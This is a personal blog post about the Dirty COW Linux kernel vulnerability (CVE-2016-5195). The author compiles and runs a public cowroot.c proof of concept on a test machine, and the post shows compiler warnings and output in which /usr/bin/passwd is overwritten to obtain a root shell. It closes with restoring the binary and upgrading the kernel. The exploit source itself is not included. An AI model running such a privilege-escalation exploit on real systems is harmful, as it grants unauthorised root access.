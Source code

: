 Title:CVE 2016-5195 dirtycow
Date: 12-10-2016 12:45
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

<img class="align-left" src="/media/2016.12/cow.png" alt="Ðirtycow logo" width="162">

Dirty COW (CVE-2016-5195) is a privilege escalation vulnerability in the Linux
Kernel.
"[A race condition](https://en.wikipedia.org/wiki/Race_condition) was found in
the way the Linux kernel's memory subsystem
handled the copy-on-write (COW) breakage of private read-only memory mappings.
An unprivileged local user could use this flaw to gain write access to otherwise
read-only memory mappings and thus increase their privileges on the system."
([Source: Red Hat](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

<!-- PELICAN_END_SUMMARY -->

So globally with the write code doing the right thing a unprivileged user can
get root permission on most GNU/Linux systems.
The satiric web site [dirtycow.ninja/](https://dirtycow.ninja/) was in the first
time create to make fun of people giving name to vulnerability even a [youtube
video](https://www.youtube.com/watch?v=kEsshExn7aE) was made. Nevertheless the
wiki of the website (on github) link to a [few
PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

I test one of this PoCs on my test computer. The exploits were not fully stable
at the time an my computer was sometime friezing just after getting root
privileges.

I used a modified version of the cowroot.c PoCs host on [a
gist](https://gist.github.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43).
First of all we compile the exploit code:


    [maggick@computer_name dirtycow]$ gcc cowroot.c -o cowroot -pthread
    cowroot.c: In function ‘procselfmemThread’:
    cowroot.c:107:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
             lseek(f,map,SEEK_SET);
                     ^~~
    In file included from cowroot.c:27:0:
    /usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
     extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^~~~~
    cowroot.c: In function ‘main’:
    cowroot.c:144:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
         asprintf(&backup, "cp %s /tmp/bak", suid_binary);
         ^~~~~~~~
    cowroot.c:148:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
         fstat(f,&st);
         ^~~~~

The warning are not really important after the compilation we just launch the
exploit:

    [maggick@computer_name dirtycow]$ ./cowroot
    DirtyCow root privilege escalation
    Backing up /usr/bin/passwd to /tmp/bak
    Size of binary: 47224
    Racing, this may take a while..
    /usr/bin/passwd overwritten
    Popping root shell.
    Don't forget to restore /tmp/bak
    thread stopped
    thread stopped
    [root@computer_name dirtycow]# id
    uid=0(root) gid=1000(maggick) groups=1000(maggick)

And we got root privileges as planned. The exploit replace the
`/usr/bin/passwd` executable so we need to restore it with the one in
`/tmp/bak`.

In order to correct this vulnerability we just need to upgrade our kernel.
